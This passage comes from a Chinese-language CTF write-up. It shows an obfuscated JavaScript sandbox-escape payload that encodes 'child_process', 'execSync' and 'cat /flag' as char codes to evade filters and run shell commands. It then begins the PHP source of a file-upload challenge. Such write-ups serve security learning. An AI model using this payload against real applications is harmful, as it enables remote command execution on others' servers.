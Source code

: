 ```python
s = "return process"
payload = "String.fromCharCode("
for c in s:
    payload += str(ord(c)) + ','
payload = payload.strip(',') + ')'
print(payload)
```

这里被过滤的方法名可以用 JavaScript 的另一种方法调用形式，即将方法名当作数组索引的形式加上 String.fromCharCode 绕过

![bypass](bypass.jpg "绕过引号和方法名过滤")

最终 paylaod 如下

```javascript
(function(){try{Buffer.from(new Proxy({},{getOwnPropertyDescriptor(){throw f=>f[String.fromCharCode(99,111,110,115,116,114,117,99,116,111,114)](String.fromCharCode(114,101,116,117,114,110,32,112,114,111,99,101,115,115))();}}));}catch(e){return e(()=>{}).mainModule.require(String.fromCharCode(99,104,105,108,100,95,112,114,111,99,101,115,115))[String.fromCharCode(101,120,101,99,83,121,110,99)](String.fromCharCode(99,97,116,32,47,102,108,97,103)).toString();}})()
```

成功获得 flag



## 0x03 babyupload

这个是真 PHP

```php
<?php
error_reporting(0);
session_save_path("/var/babyctf/");
session_start();
require_once "/flag";
highlight_file(__FILE__);
if($_SESSION['username'] ==='admin')
{
    $filename='/var/babyctf/success.txt';
    if(file_exists($filename)){
            safe_delete($filename);
            die($flag);
    }
}
else{
    $_SESSION['username'] ='guest';
}
$direction = filter_input(INPUT_POST, 'direction');
$attr = filter_input(INPUT_POST, 'attr');
$dir_path = "/var/babyctf/".$attr;
if($attr==="private"){
    $dir_path .= "/".$_SESSION['username'];
}
if($direction === "upload"){
    try{
        if(!is_uploaded_file($_FILES['up_file']['tmp_name'])){
            throw new RuntimeException('invalid upload');
        }
```
